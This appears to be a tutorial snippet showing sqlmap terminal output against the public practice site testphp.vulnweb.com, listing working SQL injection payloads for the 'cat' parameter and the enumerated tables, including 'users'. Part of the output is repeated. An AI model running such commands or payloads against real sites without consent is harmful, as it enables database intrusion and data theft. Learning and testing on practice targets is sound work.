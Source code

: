 ### sample terminal output.
```bash
grey@mi-14:~$ sqlmap  -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart --tables
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:10:18 /2023-10-05/

[21:10:18] [INFO] resuming back-end DBMS 'mysql'
[21:10:18] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=2 AND 9513=9513

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: cat=2 AND GTID_SUBSET(CONCAT(0x716b626271,(SELECT (ELT(2747=2747,1))),0x716b766a71),2747)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=2 AND (SELECT 3137 FROM (SELECT(SLEEP(5)))UitH)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=2 UNION ALL SELECT NULL,CONCAT(0x716b626271,0x615a454b67737246465044684351626d58745a6d4e4e61716e65426b7549716c46426f4e4c73574e,0x716b766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[21:10:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.19.0, PHP 5.6.40
back-end DBMS: MySQL >= 5.6
[21:10:19] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+

## Information fetched  to  '/home/grey/.local/share/sqlmap/output/testphp.vulnweb.com'
```bash
back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.19.0, PHP 5.6.40
back-end DBMS: MySQL >= 5.6
[21:10:19] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```
